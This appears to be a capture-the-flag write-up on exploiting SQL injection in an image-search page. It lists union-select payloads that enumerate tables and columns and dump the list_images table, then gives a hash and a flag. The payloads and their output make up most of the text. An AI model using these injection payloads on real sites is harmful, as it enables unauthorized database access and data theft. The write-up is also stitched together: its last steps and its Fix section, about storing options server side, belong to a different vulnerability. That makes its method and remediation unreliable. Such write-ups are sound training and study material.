 # Where: <br>
    /?page=searchimg
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    Title: list_images
    Url :
    
-This tells us that the only table is *list_images*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: id
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: url
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: title
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: comment
    Url :
    
-This tells us that there are the following columns: *id*, *url*, *title* and *comment*.

-We then enter:

    -1 union select NULL, concat (id, url, title, comment) from list_images

-We get all the images' information.
-The 5th image has the following comment that give us a string and instructions:

    Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

-If we decrypt *1928e8083cf461a51303633093573c46* at [MD5 Online](https://www.md5online.org/md5-decrypt.html)
Or
-Add an invalid option.
-Select the invalid value
-Receive the flag
# Flag:
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
Store options server side/on backend.All user input should be sanitised and validated (backend).
